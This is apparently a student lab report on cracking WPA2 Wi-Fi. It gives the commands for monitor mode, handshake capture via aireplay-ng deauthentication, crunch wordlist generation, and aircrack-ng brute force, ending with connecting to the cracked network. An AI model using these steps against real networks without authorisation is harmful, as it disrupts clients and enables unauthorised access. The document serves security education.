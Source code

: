# Wireless Network Compromise Lab

## Introduction

This project report focuses on understanding tools used for compromising wireless networks, specifically airmon-ng, aircrack-ng, and crunch. The objective is to analyze and practice capturing WPA2 handshakes, generating password lists, and performing brute-force attacks to crack Wi-Fi passwords.

## Objectives

Learn about airmon-ng, aircrack-ng, and crunch.

Install these tools on a physical or virtual machine.

Capture a WPA2 handshake from a target wireless network.

Generate a password list using crunch.

Crack the Wi-Fi password using aircrack-ng.

Successfully connect to the compromised network.

## Task Description
### 1. Capturing WPA2 Handshake

* Enable monitor mode using: sudo airmon-ng start <interface>.</br>
![Enable monitor mode using](images/1.PNG) </br>
* Kill interfering processes using: sudo airmon-ng check kill.</br>
![Kill interfering processes](images/2.PNG) </br>
* Scan for available Wi-Fi networks: sudo airodump-ng <monitor_interface>.</br>
![Scan wi-fi networks](images/4.PNG) </br>
* Filter to a specific network: sudo airodump-ng -d <BSSID> <monitor_interface>.</br>
![Filter to a specific network](images/5.PNG) </br>
* Capture handshake by forcing client deauthentication: sudo aireplay-ng --deauth 0 -a <BSSID> <monitor_interface>.</br>
![client deauthentication](images/6.PNG) </br>

### 2. Creating a Custom Password List

Generate a list of 4-digit PINs: crunch 4 4 0123456789 -o crunch-list.txt.</br>
![Generate a list of 4-digit PINs](images/8.PNG) </br>
Define patterns using placeholders (@, %, ^): crunch 8 8 -t 'test%%%^' -o crunch-list-2.txt.</br>
![Define patterns using placeholders](images/9.PNG) </br>
### 3. Cracking the WPA2 Password

Use aircrack-ng with the captured handshake and password list:</br>
aircrack-ng <capture_file> -w <wordlist_file></br>
![Use aircrack-ng](images/10.PNG) </br>
Identify the correct password and connect to the Wi-Fi network.</br>
![Identify the correct password and connect to the Wi-Fi network](images/11.PNG) </br>
## Key Observations

Monitor Mode is essential for packet capturing.</br>

Deauthentication Attacks force clients to reconnect, capturing the handshake.</br>

Password Strength significantly impacts cracking success; strong passwords resist brute-force attempts.</br>

Predefined Wordlists (like rockyou.txt) improve attack efficiency.</br>

## Conclusion

This project demonstrated techniques for capturing and cracking WPA2 Wi-Fi passwords using airmon-ng, aircrack-ng, and crunch. The experiment provided insight into wireless network security vulnerabilities and the importance of strong password policies.
